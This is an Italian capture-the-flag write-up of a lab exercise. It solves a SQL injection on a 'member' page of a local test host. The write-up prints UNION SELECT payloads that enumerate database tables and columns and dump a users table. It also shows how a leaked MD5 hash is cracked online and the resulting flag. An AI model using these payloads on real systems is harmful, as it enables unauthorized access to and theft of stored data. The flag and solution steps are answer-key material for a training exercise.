 # SQL Injection Members
Nella pagina `http://192.168.56.134/?page=member` troviamo un input vulnerabile ad un attacco SQL Injection,
di conseguenza come prima cosa andiamo a leggere tutte le tabelle presenti nel db con la seguente query:
```
1 AND 1=2 UNION SELECT table_name, 1 FROM information_schema.tables
```
e scopriamo la tabella `users`, quindi ora andiamo a leggere tutte le colonne della tabella `users` con la query:
```
1 AND 1=2 UNION SELECT column_name, 1 FROM information_schema.columns WHERE TABLE_NAME = char(117,115,101,114,115)
```
Provando a cercare per `id` nell'input troviamo l'user con id 5 che contiene campi interessanti recuperati con 
le seguenti query:
```
1 AND 1=2 UNION SELECT user_id,first_name FROM users WHERE user_id=5
1 AND 1=2 UNION SELECT last_name,town FROM users WHERE user_id=5
1 AND 1=2 UNION SELECT country,planet FROM users WHERE user_id=5
1 AND 1=2 UNION SELECT Commentaire,countersign FROM users WHERE user_id=5

user_id     5
first_name  Flag
last_name   GetThe
town        42
country     42
planet      42
Commentaire Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign 5ff9d0165b4f92b14994e5c685cdce28
```
Tramite il sito [hashes](https://hashes.com/en/tools/hash_identifier) scopriamo che si tratta di un md5 quindi con 
[md5.gromweb](https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28) lo decifriamo e troviamo la stringa
`FortyTwo`, ora proprio come dice nel commento portiamo tutti i caratteri in minuscolo e lo decriptiamo in sha256 con
[questo](https://emn178.github.io/online-tools/sha256.html) sito, avendo così la flag:
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```